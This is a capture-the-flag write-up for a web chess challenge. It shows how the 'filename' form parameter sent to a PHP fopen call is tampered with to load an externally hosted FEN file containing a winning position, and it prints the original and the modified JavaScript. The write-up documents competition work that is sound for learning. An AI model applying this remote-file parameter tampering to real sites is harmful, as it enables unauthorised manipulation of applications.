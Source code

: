 # Challenge 01

## Hint

A clean and fair game of chess. Careful though, this is not a game for grandmasters to win.

Hint: Don't make this game harder than it needs to be

https://hackerchess-web.h4ck.ctfcompetition.com/

-----

## Initial thoughts

- Use load_baseboard() to load a winning game position by using a url to a hosted fen file.

- Manipulate the base64 string for positions

- Log into admin panel

-----

## Solution

- Use load_baseboard() to load a winning game position by using a url to a hosted fen file.

- PHP function fopen can recieve urls as filenames. https://www.php.net/manual/en/function.fopen.php

- Edit the xhr form data of the 'filename' to a fen file hosted elsewhere with a winning position, the [Scholar's Mate](https://en.wikipedia.org/wiki/Scholar%27s_mate).

- Used https://lichess.org/editor to get FEN

```javascript
// original
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'baseboard.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  window.location.href = "index.php";
}

// edit
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'https://raw.githubusercontent.com/jc190/h4ck1ng-google-progress/master/EP000/Challenge-01/s-mate.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  window.location.href = "index.php";
}
```
